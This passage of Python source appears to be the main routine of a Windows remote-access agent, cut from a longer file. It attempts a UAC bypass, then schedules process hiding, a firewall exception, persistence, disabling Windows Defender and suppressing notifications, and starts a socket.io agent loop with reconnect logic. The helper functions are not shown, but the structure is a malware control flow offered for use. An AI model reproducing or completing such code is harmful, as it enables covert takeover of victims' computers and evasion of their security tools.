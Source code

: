 ```python
            connected = False
            time.sleep(5)  # Wait before retry

def signal_handler(sig, frame):
    """Handle shutdown signals"""
    debug_print("\nShutdown signal received")
    stop_all_operations()
    if sio:
        sio.disconnect()
    sys.exit(0)

if __name__ == "__main__":
    """Main entry point"""
    
    # Register signal handlers
    signal.signal(signal.SIGINT, signal_handler)
    signal.signal(signal.SIGTERM, signal_handler)
    
    # Check if running in WSL
    if is_wsl():
        debug_print("⚠️ Running in WSL - some features may not work")
    
    # Check if admin
    admin_status = is_admin()
    debug_print(f"Admin status: {admin_status}")
    
    # Attempt UAC bypass if not admin
    if not admin_status and AUTO_ELEVATE:
        debug_print("Attempting UAC bypass...")
        if attempt_uac_bypass():
            debug_print("✅ UAC bypass successful")
        else:
            debug_print("⚠️ UAC bypass failed - running with limited privileges")
    
    # Background initialization
    if AUTO_PERSISTENCE:
        bg_init = BackgroundInitializer()
        bg_init.add_task('Process Hiding', hide_process)
        bg_init.add_task('Firewall Exception', add_firewall_exception)
        bg_init.add_task('Persistence', establish_persistence)
        if DISABLE_DEFENDER:
            bg_init.add_task('Defender Disable', disable_defender)
        bg_init.add_task('Notifications Disable', disable_windows_notifications)
        
        debug_print("Starting background initialization...")
        results = bg_init.start_all()
        
        # Log results
        for task_name, result in results.items():
            if result.get('success'):
                debug_print(f"✅ {task_name}: Success")
            else:
                debug_print(f"❌ {task_name}: {result.get('error')}")
    
    # Start agent
    debug_print("Starting agent main loop...")
    agent_main()
```
